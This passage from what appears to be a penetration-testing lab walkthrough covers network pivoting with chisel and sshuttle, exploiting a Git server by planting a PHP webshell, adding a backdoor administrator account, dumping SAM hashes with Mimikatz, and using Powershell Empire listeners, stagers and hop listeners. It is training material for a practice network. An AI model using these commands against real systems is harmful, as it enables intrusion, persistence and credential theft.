**Note:** The above configuration is for a reverse SOCKS proxy -- as mentioned  previously, the proxy opens on port 1080 rather than the specified  listening port (1337). If you use proxychains with a forward proxy then  the port should be set to whichever port you opened (1337 in the above  example).

------

Now that we've seen how to use chisel to  create a SOCKS proxy, let's take a look at using it to create a port  forward with chisel.

***Remote Port Forward:***
A remote port forward is when we connect back from a compromised target to create the forward.

For a remote port forward, on our attacking machine we use the exact same command as before:
`./chisel server -p LISTEN_PORT --reverse &`

Once again this sets up a chisel listener for the compromised host to connect back to. 
The command to connect back is slightly different this time, however:
`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

You may recognise this as being very similar to the SSH reverse port  forward method, where we specify the local port to open, the target IP,  and the target port, separated by colons. Note the distinction between  the `LISTEN_PORT` and the `LOCAL_PORT`. Here the `LISTEN_PORT` is the port that we started the chisel server on, and the `LOCAL_PORT` is the port we wish to open on our own attacking machine to link with the desired target port.

To use an old example, let's assume that our own IP is 172.16.0.20, the  compromised server's IP is 172.16.0.5, and our target is port 22 on  172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222  on our attacking machine would be as follows:
`./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &`

Connecting back to our attacking machine, functioning as a chisel server started with:
`./chisel server -p 1337 --reverse & `

This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222.

***Local Port Forward:***
As with SSH, a local port forward is where we connect from our own  attacking machine to a chisel server listening on a compromised target.

On the compromised target we set up a chisel server:
`./chisel server -p LISTEN_PORT`

We now connect to this from our attacking machine like so:
`./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`

For example, to connect to 172.16.0.5:8000 (the compromised host running a  chisel server), forwarding our local port 2222 to 172.16.0.10:22 (our  intended target), we could use:
`./chisel client 172.16.0.5:8000 2222:172.16.0.10:22`

------

As with the backgrounded socat processes, when we want to destroy our chisel connections we can use `jobs` to see a list of backgrounded jobs, then `kill %NUMBER` to destroy each of the chisel processes.

***Note:** When using Chisel on Windows, it's important to remember to upload it with a file extension of* `.exe` *(e.g.* `chisel.exe`*)!*


## sshuttle

Finally, let's take a look at our last tool of this section: [sshuttle](https://github.com/sshuttle/sshuttle).

This tool is quite different from the others we have covered so far. It  doesn't perform a port forward, and the proxy it creates is nothing like the ones we have already seen. Instead it uses an SSH connection to  create a tunnelled proxy that acts like a new interface. In short, it  simulates a VPN, allowing us to route our traffic through the proxy *without the use of proxychains* (or an equivalent). We can just directly connect to devices in the  target network as we would normally connect to networked devices. As it  creates a tunnel through SSH (the secure shell), anything we send  through the tunnel is also encrypted, which is a nice bonus. We use  sshuttle entirely on our attacking machine, in much the same way we  would SSH into a remote server. 

Whilst this sounds like an incredible upgrade, it is not without its drawbacks. For a start, sshuttle only works on Linux targets. It also requires access to the compromised server via SSH, and Python also needs to be installed on the server. That said, with SSH  access, it could theoretically be possible to upload a static copy of  Python and work with that. These restrictions do somewhat limit the uses for sshuttle; however, when it *is* an option, it tends to be a superb bet!

First of all we need to install sshuttle. On Kali this is as easy as using the `apt` package manager:
`sudo apt install sshuttle`

------

The base command for connecting to a server with sshuttle is as follows:
`sshuttle -r username@address subnet `

For example, in our fictional 172.16.0.x network with a compromised server  at 172.16.0.5, the command may look something like this:
`sshuttle -r user@172.16.0.5 172.16.0.0/24`

We would then be asked for the user's password, and the proxy would be  established. The tool will then just sit passively in the background and forward relevant traffic into the target network.

Rather than specifying subnets, we could also use the `-N` option which attempts to determine them automatically based on the compromised server's own routing table:
`sshuttle -r username@address -N`

Bear in mind that this may not always be successful though!

As with the previous tools, these commands could also be backgrounded by appending the ampersand (`&`) symbol to the end.

If this has worked, you should see the following line: `c : Connected to server.`

------

Well, that's great, but what happens if we don't have the user's password, or the server only accepts key-based authentication?

Unfortunately, sshuttle doesn't currently seem to have a shorthand for specifying a  private key to authenticate to the server with. That said, we can easily bypass this limitation using the `--ssh-cmd` switch.

This switch allows us to specify what command gets executed by sshuttle when trying to authenticate with the compromised server. By default this is  simply `ssh` with no arguments. With the 

`--ssh-cmd` switch, we can pick a different command to execute for authentication: say, `ssh -i keyfile`, for example!

So, when using key-based authentication, the final command looks something like this:
`sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET`

To use our example from before, the command would be:
`sshuttle -r user@172.16.0.5 --ssh-cmd "ssh -i private_key" 172.16.0.0/24`

------

**Please Note:** When using sshuttle, you may encounter an error that looks like this:
`client: Connected.client_loop: send disconnect: Broken pipeclient: fatal: server died with error code 255`

This can occur when the compromised machine you're connecting to is part of  the subnet you're attempting to gain access to. For instance, if we were connecting to 172.16.0.5 and trying to forward 172.16.0.0/24, then we  would be including the compromised server inside the newly forwarded  subnet, thus disrupting the connection and causing the tool to die.

To get around this, we tell sshuttle to exclude the compromised server from the subnet range using the `-x` switch.

To use our earlier example:
`sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5`

This will allow sshuttle to create a connection without disrupting itself.



## Conclusion                            

The big take away from this section is: there are *many*  different ways to pivot through a network. Further research in your own  time is highly recommended, as there are a great many interesting  techniques which we haven't had time to cover here (for example, on a  fully rooted target, it's possible to use the installed firewall -- e.g. iptables or Windows Firewall -- to create entry points into an  otherwise inaccessible network. Equally, it's possible to set up a route manually in the routing table of your attacking machine to, routing  your traffic into the target network without requiring a proxy-tool like Proxychains or Foxyproxy). 

As a summary of the tools in this section:

- Proxychains and FoxyProxy are used to access a proxy created with one of the other tools
- SSH can be used to create both port forwards, and proxies
- plink.exe is an SSH client for Windows, allowing you to create reverse SSH connections on Windows
- Socat is a good option for redirecting connections, and can be used to create port forwards in a variety of different ways
- Chisel can do the exact same thing as with SSH portforwarding/tunneling, but doesn't require SSH access on the box
- sshuttle is a nicer way to create a proxy when we have SSH access on a target

# Git Server 

## Enumeration

It's time to put your newfound knowledge to the test!

Download a [static nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap?raw=true). Rename it to `nmap-USERNAME`, substituting in your own TryHackMe username. Finally, upload it to the target in a manner of your choosing. 

**For example, with a Python webserver:-**

On Kali (inside the directory containing your Nmap binary):

```
sudo python3 -m http.server 80
```

Then, on the target:

```
curl ATTACKING_IP/nmap-USERNAME -o /tmp/nmap-USERNAME && chmod +x /tmp/nmap-USERNAME
```



------

Now use the binary to scan the network. The command will look something like this:

```
./nmap-USERNAME -sn 10.x.x.1-255 -oN scan-USERNAME
```

You will need to substitute in your username, and the correct IP range. For example:

```
./nmap-MuirlandOracle -sn 10.200.72.1-255 -oN scan-MuirlandOracle
```

Here the `-sn` switch is used to tell Nmap not to scan any port and instead just determine which hosts are alive.

Note that this would also work with CIDR notation (e.g. 10.x.x.0/24).

Use what you've learnt to answer the following questions!

***Note:** The host ending in* `.250` *is the OpenVPN server, and should be excluded from all answers. It is  not part of the vulnerable network, and should not be targeted. The same goes for the host ending in* `.1` *(part of the AWS  infrastructure used to create the network) -- this too is out of scope  and should be excluded from all answers.*


## Pivoting

Thinking about the interesting service on the next target that we  discovered in the previous task, pick a pivoting technique and use it to connect to this service,  using the web browser on your attacking machine! 

As a word of  advice: sshuttle is highly recommended for  creating an initial access point into the rest of the network. This is  because the firewall on the CentOS target will prove problematic with  some of the techniques shown here. We will learn how to mitigate against this later in the room, although if you're comfortable opening up a  port using firewalld then port forwarding or a proxy would also work.



## Code Review                            

In the previous task we found an exploit that might work against the service running on the second server.

Make a copy of this exploit in your local directory using the command:
`searchsploit -m EDBID`


Unfortunately, the local exploit copies stored by searchsploit use DOS line endings,  which can cause problems in scripts when executed on Linux:


Before we  can use the exploit, we must convert these into Linux line endings using the dos2unix tool:
`dos2unix ./EDBID.py`

This can also be done manually with `sed` if `dos2unix` is unavailable:
`sed -i 's/\r//' ./EDBID.py`

------

With the file converted, it's time to read through the exploit to make sure  we know what it's doing. The fact that the exploit is on Exploit-DB  means that it's unlikely to be outright malicious, but there's no  guarantee that it will *work*, or do anything close to exploiting a vulnerabilty in the service.

Open the exploit in your favourite text editor and let's get going!

As this is a Python script, the  version of the language used to write the software matters. Many older  exploits are still written in Python2. These exploits tend to be  incompatible with the Python3 interpreter, and vice versa. 

Before we can do anything else, we need to determine whether this exploit was  written in Python2 or Python3. A quick way of doing this is to look for  the `print` statements (used to echo output to the console). If there are no round brackets (e.g. `print "Hello World!"`) then the exploit will be Python2, otherwise the exploit is likely to be Python3 (e.g. `print("Hello World!")`). Of course, this is far from the only way to check, but it will work for our purposes.

Bearing this in mind, is the script written in Python2 or Python3?                                                            

Now that we know which version of Python we're dealing with we can execute it in one of two ways:

- Using the appropriate interpreter directly (e.g. `python3 exploit.py` / `python2 exploit.py`)
- Adding a shebang line in at the top of the exploit. A shebang tells the Unix  program loader which interpreter to use to run a script. Shebangs always start with the characters: `#!`. You then specify the absolute path to the interpreter, so: `#!/usr/bin/python3` / `#!/usr/bin/python2` / `#!/bin/sh`, etc. This means that if we execute the script using `./exploit.py`, it will be executed by the correct interpreter.

Add an appropriate shebang to the exploit, at the very top of the file!

​                                                            

Let's have a look through some of the key sections of the code.

This script is not designed to be fancy. It does what we need it to do, and  nothing more. All configurations are done within the code by literally  editing the script, so it's important that we understand the options  available to us. These can be found in lines 23-31 (offset by minus one if you didn't add the shebang):


Realistically we are only interested in the first two variables here, as the  other options should be fine at their default values. The two variables  we care about are `ip` and `command`, allowing us to specify our target and the command to run, respectively.

Set the IP to the correct target for your choice of pivoting technique. If  you used sshuttle or one of the proxying techniques then this will just  be the IP of the target. If you used a port forward then it will be `localhost:chosen_port`, e.g.:
`localhost:8000`

For the time being we will leave the command as it is. `whoami` is as good a command as any to confirm that the exploit works.

The bulk of the middle section of the code is taking advantage of the  improper access controls which make this vulnerability possible. We will not cover this in detail in order to keep this task relatively short;  however, reading through the exploit (and trying to understand it) would be highly advisable.

We are, however, interested in the last 6 lines of the exploit:


These create a PHP webshell (`<?php system($_POST['a']); ?>`) and echo it into a file called `exploit.php` under the webroot. This can then be accessed by posting a command to the newly created `/web/exploit.php` file.

For the sake of not spoiling things for other users, we are going to alter this before running the script.

We can leave the payload as it is, but we will alter both instances of "exploit.php" in the script to be `exploit-USERNAME.php`, for example:


##  Exploitation

In the previous task we had a look through the source code of the  exploit we found, identified the lines which needed to be updated, then  made the necessary changes.

It is now time to run the exploit!


Success!

Not only did the exploit work perfectly, it gave us command execution as NT AUTHORITY\SYSTEM, the highest ranking local account on a Windows  target.

From here we want to obtain a full reverse shell. We have two options for this:

1. We could change the command in the exploit and re-run the code
2. We could use our knowledge of the script to leverage the same webshell to  execute more commands for us, without performing the full exploit twice

Option number two is a lot quieter than option number 1, so let's use that.

------

The webshell we have uploaded responds to a POST request using the parameter "`a`" (by default). This means that we have two easy ways to access this. We  could use cURL from the command line, or BurpSuite for a GUI option.

**With cURL:**
`curl -X POST http://IP/web/exploit-USERNAME.php -d "a=COMMAND"`


***Note:** in this screenshot,* `gitserver.thm` *has been added to the* `/etc/hosts` *file on the attacking machine, mapped to the target IP address.*

**With BurpSuite:**
We first turn on our Burp proxy (see the [Burpsuite room](https://tryhackme.com/room/rpburpsuite) if you need help with this!) and navigate to the exploit URL:


We then press `Ctrl + R` to send the request to Repeater on the top menu.

Next we change the "GET" on line 1 to "POST". We then add a `Content-Type` header on line 9 to tell the server to accept POST paramters:
`Content-Type: application/x-www-form-urlencoded`

 Finally, on line 11 we add `a=COMMAND`:


Press send, and see the response come in!


With two methods available, pick your favourite and we'll aim for a shell!

​                                                            

Before we go for a reverse shell, we need to establish whether or not this target is allowed to connect to the outside world. The typical way of doing this is by executing the `ping` command on the  compromised server to ping our own IP and using a network interceptor  (Wireshark, TCPDump, etc) to see if the ICMP echo requests make it  through. If they do then network connectivity is established, otherwise  we may need to go back to the drawing board.

To start up a TCPDump listener we would use the following command:
`tcpdump -i tun0 icmp`

***Note:** if your VPN is not using the tun0 interface then you will need to  replace this with the correct interface for your system which can be  found using* `ip -a link` *to see the available interfaces.
Now, using the webshell, execute the following ping command (substituting in your own VPN IP!):
`ping -n 3 ATTACKING_IP` This will send three ICMP ping packets back to you.                 

Looks like we're going to need to think outside the box to catch this shell.

We have two easy options here:

-  Given we have a fully stable shell on .200, we could upload a static copy of [netcat](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/ncat) and just catch the shell here
- We could set up a relay on .200 to forward a shell back to a listener

It is up to you which option you choose (although for the sake of  practice, a socat relay is suggested); however, whichever way you  choose, please be mindful of other users at earlier stages of the network  and **ensure that any ports you open are above 15000.**


Before we can do this, however, we need to take one other thing into account.  CentOS uses an always-on wrapper around the IPTables firewall called  "firewalld". By default, this firewall is extremely restrictive, only  allowing access to SSH and anything else the sysadmin has specified.  Before we can start capturing (or relaying) shells, we will need to open our desired port in the firewall. This can be done with the following  command:
`firewall-cmd --zone=public --add-port PORT/tcp`
Substituting in your desired choice of port.

In this command we are using two switches. First we set the zone to public -- meaning that the rule will apply to every inbound connection to this port. We then specify which port we want to open, along with the  protocol we want to use (TCP).

With that done, set up either a listener or a relay on .200.                                                           

Let's go for a reverse shell!

As this is a web exploit, we now have to URL encode the shell command. If  using Burpsuite, you can do this by pasting the command in as the value  for the "a" parameter, then selecting it and pressing Ctrl + U:


If you are using cURL then there are a variety of options available. cURL does provide a `--data-urlencode` switch; however, it's often easiest to just use a [website](https://www.urlencoder.org/) to encode the shell command, then copy it in with the `-d` switch:


## Stabilisation & Post Exploitation

In the last task we got remote command execution running with the  highest permissions possible on a local Windows machine, which means  that we do not need to escalate privileges on this target.

In the  upcoming tasks we will be looking at the second teaching point of this  network -- the command and control framework: Empire. Before we do that  though, let's consolidate our position a little.

From the  enumeration we did on this target we know that ports 3389 and 5985 are  open. This means that (using an account with the correct privileges) we  should be able to obtain either a GUI through RDP (port 3389) or a stable CLI shell using WinRM (port 5985).

Specifically, we need a user account (as opposed to the service account which we're  currently using), with the "Remote Desktop Users" group for RDP, or the "Remote Management Users" group for WinRM. A user in the  "Administrators" group trumps the RDP group, and the original  Administrator account can access either at will. 

We  already have the ultimate access, so let's create such an account!  Choose a unique username here (your TryHackMe username would do), and  obviously pick a password which you don't use *anywhere* else.

First we create the account itself:
`net user USERNAME PASSWORD /add`

Next we add our newly created account in the "Administrators" and "Remote Management Users" groups:
```powershell
net user USERNAME PASSWORD /add
net localgroup Administrators USERNAME /add
net localgroup "Remote Management Users" USERNAME /add
```


We can now use this account to get stable access to the box!

------

As mentioned previously, we could use either RDP or WinRM for this.

*Note:* Whilst the target is set up to allow multiple sessions over RDP, for the sake of other users attacking the network in conjunction with  memory limitations on the target, it would be appreciated if you stuck  to the CLI based WinRM for the most part. We will use RDP briefly in the next section of this task, but otherwise please use WinRM when moving  forward in the network.

Let's access the box over WinRM. For this we'll be using an awesome little tool called [evil-winrm](https://github.com/Hackplayers/evil-winrm).

This does not come installed by default on Kali, so use the following command to install it from the Ruby Gem package manager:
`sudo gem install evil-winrm`

With evil-winrm installed, we can connect to the target with the syntax shown here:
`evil-winrm -u USERNAME -p PASSWORD -i TARGET_IP `


*If you used an SSH portforward rather than sshuttle to access the Git  Server, you will need to set up a second tunnel here to access port  5985. In this case you may also need to specify the target port using  the -P switch (e.g. -*`i 127.0.0.1 -P 58950`*).*

Note that evil-winrm usually gives medium integrity shells for added  administrator accounts. Even if your new account has Administrator  permissions, you won't actually be able to perform administrative  actions with it via winrm.

------

Now let's look at connecting over RDP for a GUI environment. 

There are many RDP clients available for Linux. One of the most versatile is "xfreerdp" -- this is what we will be using here. If not already installed, you can  install xfreerdp with the command:
`sudo apt install freerdp2-x11`

As mentioned, xfreerdp is an incredibly versatile tool with a vast number  of options available. These range from routing audio and USB connections into the target, through to pass-the-hash attacks over RDP. The most basic syntax for connecting is as follows:
`xfreerdp /v:IP /u:USERNAME /p:PASSWORD`

For example:
`xfreerdp /v:172.16.0.5 /u:user /p:'password123!'`

Note that (as this is a command line tool), passwords containing special characters must be enclosed in quotes.

When authentication has successfully taken place, a new window will open giving GUI access to the target.


That said, we can do a *lot* more with xfreerdp. These switches are particularly useful:-

- `/dynamic-resolution` -- allows us to resize the window, adjusting the resolution of the target in the process
- `/size:WIDTHxHEIGHT` -- sets a specific size for targets that don't resize automatically with `/dynamic-resolution`
- `+clipboard` -- enables clipboard support
- `/drive:LOCAL_DIRECTORY,SHARE_NAME` -- creates a shared drive between the attacking machine and the target. This switch is insanely useful as it allows us to very easily use our  toolkit on the remote target, and save any outputs back directly to our  own hard drive. In essence, this means that we never actually have to  create any files on the target. For example, to share the current  directory in a share called `share`, you could use: `/drive:.,share`, with the period (`.`) referring to the current directory

When creating a shared drive, this can be accessed either from the command line as `\\tsclient\`, or through File Explorer under "This PC":


Note that the name of the share will change according to what you selected in the `/drive` switch.

A useful directory to share is the `/usr/share/windows-resources` directory on Kali. This shares most of the Windows tools stockpiled on  Kali, including Mimikatz which we will be using next. This would make  the full command:
`xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share`

------

With GUI access obtained and our Windows resources shared to the target, we  can now very easily use Mimikatz to dump the local account password  hashes for this target. Next we open up a `cmd.exe` or `PowerShell` window *as an administrator* (i.e. right click on the icon, then click "Run as administrator") in the GUI and enter the following command:
`\\tsclient\share\mimikatz\x64\mimikatz.exe`


***Note:** if you used a different share name, you would need to substitute this in.  Equally, if the command errors out, you may need to install mimikatz on  Kali with* `sudo apt install mimikatz`*.*

With  Mimikatz loaded, we next need to give ourselves the Debug privilege and  elevate our integrity to SYSTEM level. This can be done with the  following commands:
`privilege::debugtoken::elevate`


If we want we could log Mimikatz output with the `log` command. For example: `log c:\windows\temp\mimikatz.log`, would save the Mimikatz output into the Windows Temp directory. This  could also be saved directly into our Kali machine, but be aware that  the remote destination must be writeable to the local user running the RDP session.

We can now dump all of the SAM local password hashes using:
`lsadump::sam`

Near the top of the results you will see the Administrator's NTLM hash:


# Command and Control

## Introduction                            

***Note:** If you are using the AttackBox then you  are advised to skip to Task 32. The way that Empire is installed in the  AttackBox is not representative of the recommended method -- a necessary design choice which was made to accommodate other software running on  the machine. If you are comfortable working with Docker (and changing  the instructions in the following tasks to accommodate accordingly) then feel free to read on. Otherwise please skip to the next section.*

------

So, we have a stable shell. What now?

With a foothold in a target network, we can start looking to bring what is known as a *C2 (Command and Control) Framework* into play. C2 Frameworks are used to consolidate an attacker's position  within a network and simplify post-exploitation steps (privesc, AV  evasion, pivoting, looting, covert network tactics, etc), as well as  providing red teams with extensive collaboration features. There are  many C2 Frameworks  available. The most famous (and expensive) is likely [Cobalt Strike](https://www.cobaltstrike.com/); however, there are many others, including the .NET based [Covenant](https://github.com/cobbr/Covenant), [Merlin](https://github.com/Ne0nd0g/merlin), [Shadow](https://github.com/bats3c/shad0w), [PoshC2](https://github.com/nettitude/PoshC2), and many others. An excellent resource for finding (and filtering) C2 frameworks is [The C2 Matrix](https://www.thec2matrix.com/), which provides a great list of the pros and cons of a huge number of frameworks.

We have a system shell on a Windows host, making this an ideal time to  introduce the second of our three teaching topics: the C2 Framework  "Empire".

Powershell Empire is, as the name  suggests, a framework  built primarily to attack Windows targets (although especially with the  advent of dotnet core, more and more of the functionality may become  usable in other systems). It provides a wide range of  modules to take initial access to a network of devices, and turn it into something *much* bigger. In this section we will be  looking at the principles of PS Empire, as well as how to use it (and  its GUI interface: Starkiller) to improve our shell and perform  post-exploitation techniques on the Git Server.

The Empire project was originally abandoned in early 2019; however, it was soon picked up by a company called [BC-Security](https://www.bc-security.org/), who have maintained and improved it ever since. As such, there are  actually two public versions of Empire -- the original (now very  outdated), and the current BC-Security fork. Be careful to get the right one!

***Note:** this material was originally  written for Empire 3.x, but has been updated in response to the release  of Empire 4.x which has a very different way of operating. Make sure to  use Empire 4.x if following along with these materials.*

We will be looking into  both Empire and its GUI extension: "Starkiller". Empire is the original  CLI based framework but has now been split into a *server* mode and a *client* mode. Starkiller is a more recent addition to the toolbox, and can be  used instead of (or as well as) the Empire client CLI program. 

## Installation                            

tarkiller and Empire (via Docker) are both already  installed on the TryHackMe AttackBox, so if you are not using your own  machine then you can skip this task.

------

That said, if we are using our own VM then we need to install both Empire and Starkiller before we use them.  Ultimately it's up to you which you use; both will be covered in the  tasks. Regardless, we need to install at least Empire. 

In ages past this was a much more complicated process involving the Git  repo and setup scripts. These days it's easiest to just use the apt  repositories:

```
sudo apt install powershell-empire starkiller
```

With both installed, we now need to start an Empire server. This should stay running in the background whenever we want to use either the Empire  Client or Starkiller:
`sudo powershell-empire server`

The server should now start:


It would be more common to have an Empire server running on a separate C2 server (usually hosted locally with cloud infrastructure linking back  to receive inbound connections through). Multiple pentesters or red  teamers would then be able to connect to a single central server.

This is entirely overkill for our uses here -- instead we will just run both the server and the client application(s) on the single Kali instance.

------

With the server started, let's get the Empire CLI Client working. You are  welcome to skip this if you would prefer to work exclusively in  Starkiller.

Starting the Empire CLI Client is as easy as:
`powershell-empire client`


With the server instance hosted locally this should connect automatically by default. If the Empire server was on a different machine then you would need to either change the connection information in the `/usr/share/powershell-empire/empire/client/config.yaml` file, or connect manually from the Empire CLI Client using `connect HOSTNAME --username=USERNAME --password=PASSWORD`.

------

Starkiller is an Electron app which works by connecting to the REST API exposed by the Empire server


With an Empire server running, we can start Starkiller by executing "`starkiller`" in a new terminal window:



From here we need to sign into the REST API we deployed previously. By default this runs on `https://localhost:1337`, with a username of `empireadmin` and a password of `password123`:


## Empire: Overview

Powershell Empire has several major sections to it, which we will be covering in the upcoming tasks.

- **Listeners** are fairly self-explanatory. They listen for a connection and facilitate further exploitation
- **Stagers** are essentially payloads generated by Empire to create a robust reverse shell in conjunction with a listener. They are the delivery mechanism  for agents
- **Agents** are the equivalent of a Metasploit  "Session". They are connections to compromised targets, and allow an  attacker to further interact with the system
- **Modules** are  used to in conjunction with agents to perform further exploitation. For  example, they can work through an existing agent to dump the password  hashes from the server 

Empire also allows us to add in custom **plugins** which extend the functionality of the framework in various ways; however, we will not be covering this in the upcoming content.

In addition to these practical applications of the framework, it also has a nifty credential storage facility, automatically storing any found  creds in a local database, plus many other neat features! Many of these  extra features (such as the messaging functionality) are tailored for  teams attacking a target; we will not be covering these collaborative  features in much detail, but you are encouraged to look at them for  yourself!

There is a problem though. As established previously, our target (the Git  Server) does not have the ability to connect directly to our attacking  machine. Due to how Empire handles pivoting, we will need to set up a  special kind of listener, so before we do that, we will learn the  "normal" process for setting up Empire and Starkiller using the already  compromised Webserver as a target. Once we have a handle on how Empire  operates, we will switch focus to our primary target: the Git Server.

In each of the following tasks, we will cover the relative section in both the Empire CLI and the Starkiller GUI. You are welcome to pick  whichever one you prefer -- or follow along with both!

Let's set up our first listener!

## Empire: Listeners                            

Listeners in Empire are used to receive connections from stagers (which we'll look at in the next task). The default listener is the `HTTP` listener. This is what we will be using here, although there are many  others available. It's worth noting that a single listener can be used  more than once -- they do not die after their first usage.

------

Let's start by setting up a listener in the Empire CLI Client.

Having started the client, we are met with the following menu:


To select a listener we would use the `uselistener` command. To see all available listeners, type `uselistener ` (making sure to include the space at the end!) -- this should bring up a dropdown menu of available listeners:


 When you've picked a listener, type `uselistener LISTENER` and press enter to select it; alternatively, the up and down arrow keys can also be used to traverse the dropdown, with the chosen listener  again being selected by pressing enter. Here we will be using the `http` listener (the most common kind), so we use `uselistener http`:


This brings up a huge table of options for the listener. If we need to see  an updated copy of this table (having set options, for example), we can  access it again with the `options` command when in the context of the listener.

The syntax for setting options is identical to the Metasploit module options syntax -- `set OPTION VALUE`. Once again, a dropdown will appear showing us the available options after we type `set `.

Set a new name for the listener. This allows us to easily identify it later -- especially if we have several open. It is not essential, however,  and can be left at the default `http` if preferred. 

That said, some options *must* be set. At a bare minimum we must set the host (to our own IP address) and port:


Bear in mind that option names are case sensitive in Empire. 

Many of the other options presented here are extremely useful, so it's well  worth learning what they do and how they can be applied.

With the required options set, we can start the listener with: `execute`. We can then exit out of this menu using `back`, or exit to the main menu with `main`.

To view our active listeners we can type listeners then press enter:


When we want to stop a listener, we can use `kill LISTENER_NAME` to do so -- a dropdown menu with our active listeners will once again appear to assist.

------

We have a listener in the Empire CLI; now let's do the same thing in Starkiller!

When we first launched Starkiller, we were placed automatically in the Listeners menu:


The process of creating a listener with the GUI is very intuitive. Click the "Create " button.

In the menu that pops up, set the Type to `http`, the same as with the Empire Listener we created before. Several new options will appear:


Notice that these options are identical to those we saw earlier in the CLI version.

Once again, set the Name, Host, and Port for the listener (make sure to use a different port from previously if you already have an Empire listener  started!):


With the options set, click "Submit" at the top of the page, then go back to the Listeners menu by clicking on "Listeners" at the top left of the  page. Back on the main Listeners page you will see your created  listener!


***Note:** if you also have a listener set up in Empire, this will also show up here.*

## Empire: Stagers                            

Stagers are Empire's payloads. They are used to connect back to waiting listeners, creating an agent when executed.

We can generate stagers in either Empire CLI or Starkiller. In most cases  these will be given as script files to be uploaded to the target and  executed. Empire gives us a huge range of options for creating and  obfuscating stagers for AV evasion; however, we will not be going into a lot of detail about these here.

------

Let's first look at generating stagers in the Empire CLI application.

From the main Empire prompt, type `usestager ` (including the space!) to get a list of available stagers in a dropdown menu.

There are a variety of options here. When in doubt, `multi/launcher` is often a good bet. In this case, let's go for `multi/bash` (`usestager multi/bash`):


As with listeners, we set options with `set OPTION VALUE`. There are many options here, but the only thing we need do is set the  listener to the name of the listener we created in the previous task,  then tell Empire to `execute`, creating the stager in our `/tmp` directory:


We now need to get the stager to the target and executed, but that is a  job for later on. In the meantime we can save the stager into a file on  our own attacking machine then once again exit out of the stager menu  with `back`.

------

Not unexpectedly, the process for generating stagers with Starkiller is almost identical.

First we switch over to the Stagers menu on the left hand side of the interface:


From here we click "Create" and once again select `multi/bash`.

We select the Listener we created in the previous task, then click submit, leaving the other options at their default values:


 This brings us back to the stagers main menu where we are given the  option to copy the stager to the clipboard by clicking on the "Actions"  dropdown and selecting "Copy to Clipboard":
Once again we would now have to execute this on the target.

## Empire: Agents                            

Now that we've started a listener and created a stager, it's time to put them together to get an agent!

We've been building up towards getting an agent on the compromised webserver, so let's do that now.

------

The process for this is identical whether we are using Starkiller or Empire Client. We need to get the file to the target and executed.

There are a variety of ways we could do this. The simplest would simply be to use your preferred CLI text editor to create a file on the target, copy and paste the script in, then execute it. If using this method, please  do it in the /tmp directory and follow the `FILENAME-USERNAME.sh` naming convention. We could also use something called a *[here-document](https://tldp.org/LDP/abs/html/here-docs.html)* to execute the entire script without ever writing it to the disk. 

That said, this is overkill. If we read through the script we can see that it is in three main parts:


- In the green square we have the *shebang*. This tells the shell which interpreter to run the script under. In this case the script would be run using `/bin/bash`
- The red square contains the payload itself. This is the section we're interested in
- The blue square contains post processing commands. Specifically these two lines tell the script to delete itself then exit

Knowing this, we can just copy everything in the red square then execute it in a terminal on the target:


This results in an agent being received by our waiting listener.

In the Empire CLI receiving a listener looks something like this:


We can then type `agents` and hit enter to see a full list of available agents:


To interact with an agent, we use `interact AGENT_NAME` -- as per usual a dropdown with autocompletes will assist us here. This puts us into the context of the agent. We can view the full list of  available commands with `help`:


Note that this menu will change depending on the stager we used.

When we have finished with our agent we use `back` to switch context back to the agents menu. This doesn't destroy the  agent, however. If we did want to kill our agent, we would do it with `kill AGENT_NAME`:


We can also rename agents using the command: `rename AGENT_NAME NEW_AGENT_NAME`.

------

To interact with agents In Starkiller we go to the Agents tab on the left hand side of the screen:


Here we will see that our agent has checked in!


To interact with an agent in Starkiller we can either click on its name, or click on the "pop out" button in the actions menu.

This results in a menu which gives us access to a variety of amazing  features, including the ability to execute modules (more on these soon), execute commands in an interactive shell, browse the file system, and  much more. Be sure to play around with this before moving on!
To delete agents in Starkiller we can use either the trashcan icon in the  pop-out agent Window, or the kill button in the action menu for the  agent back in the Agents tab of Starkiller.



## Empire: Hop Listeners                            

As mentioned previously, Empire agents can't be proxied  with a socat relay or any equivalent redirects; but there must be a way  to get an agent back from a target with no outbound access, right?

The answer is yes. We use something called a Hop Listener.

Hop Listeners create what looks like a regular listener in our list of  listeners (like the http listener we used before); however, rather than  opening a port to receive a connection, hop listeners create files to be copied across to the compromised "jump" server and served from there.  These files contain instructions to connect back to a normal (usually HTTP) listener on our attacking machine. As such, the hop listener in the  listeners menu can be thought of as more of a placeholder -- a reference to be used when generating stagers. 

If this doesn't make much sense just now, don't worry! Hopefully it will once we have worked through an example.

The hop listener we will be working with is the most common kind: the `http_hop` listener.

When created, this will create a set of `.php` files which must be uploaded to the jumpserver (our compromised  webserver) and served by a HTTP server. Under normal circumstances this  would be a trivial task as the compromised server already has a  webserver running; however, out of courtesy to anyone else attempting  the network, we will not be using the installed webserver.

------

Let's first look at starting the listener in Empire CLI.

Switch into the context of the listener using `uselistener http_hop` from the main Empire menu (you may need to use `back` a few times to get out of any agents, etc). There are a few options we're interested in here:


Specifically we need:-

- A **RedirectListener** -- this is a regular listener to forward any received agents to. Think  of the hop listener as being something like a relay on the compromised  server; we still need to catch it with something! You could use the  listener you set up earlier for this, or create an entirely new HTTP listener using the same steps we used earlier. Make sure that this  matches up with the name of an already active listener though!
- A **Host**  -- the IP of the compromised webserver (`.200`).
- A **Port** --  this is the port which will be used for the webserver hosting our  hop files. Pick a random port here (above 15000), but remember it!

When filled in, our options should look something like this:


As shown in the screenshot, we then once again use `execute` to start the listener.

This will have written a variety of files into a new `http_hop` directory in `/tmp` of our attacking machine. We will need to replicate this file structure on our jump server (the compromised `.200` webserver) when we serve the files. Notice that these files (`news.php`, `admin/get.php`, and `login/process.php`) would not look out of place amongst genuine web application files --  and indeed could easily be discretely merged into an existing webapp. 

------

Let's look at setting up a `http_hop` listener in Starkiller.

By this stage you should be fairly familiar with this process, so we will go through this quickly.

